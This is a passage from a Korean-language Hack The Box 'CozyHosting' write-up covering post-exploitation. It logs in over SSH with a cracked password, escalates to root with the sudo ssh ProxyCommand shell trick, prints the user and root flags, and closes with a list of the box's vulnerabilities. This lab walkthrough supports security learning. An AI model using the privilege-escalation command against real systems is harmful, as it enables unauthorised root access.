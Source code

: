 
## josh사용자로 post-exploit
home directory에 있던 josh로 ssh 접속시도
```bash
┌──(root㉿kali)-[~/Hack_The_Box/CozyHosting]
└─# ssh josh@10.129.216.42  
josh@10.129.216.42 password: manchesterunited

josh@cozyhosting:~$ id

uid=1003(josh) gid=1003(josh) groups=1003(josh)
# josh사용자로 ssh 연결 성공
josh@cozyhosting:~$ cat /home/josh/user.txt 
c933f6d88e6a49b7ce2315c332b4c5d5 # userflag


josh@cozyhosting:~$ sudo -l
[sudo] password for josh: 
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
# ssh 명령어를 sudo 명령어로 사용할 수 있다

```

![alt text](img/image9.png)
gtfo에서 ssh가 sudo로 사용했을때 post-exploit 명령어를 확인가능하다  

```
josh@cozyhosting:~$ sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
# id
uid=0(root) gid=0(root) groups=0(root) #루트권한 획득
# cat /root/root.txt
a1affc7434b3774a6d1a3ef8a0a57398 # rootflag

```

# 취약점

- 웹 디렉토리 브루트포싱을 통해 민감한 session이 탈취 당함  

- 단순 session 인증만으로 로그인접속 우회 가능  

- admin페이지에서 웹에서 요청을 보내는 서비스에서 사용자 input에 의해서 rce 취약점 발생  
- 웹서버내 저장되어있는 파일에 비밀번호가 해시로 암호화는 되어있으나 평문 비밀번호가 취약해서 브루트포싱에 복호화됨
- josh사용자의 sudo 권한 설정에 권한상승 취약점이 있는 ssh가 설정되어있음음

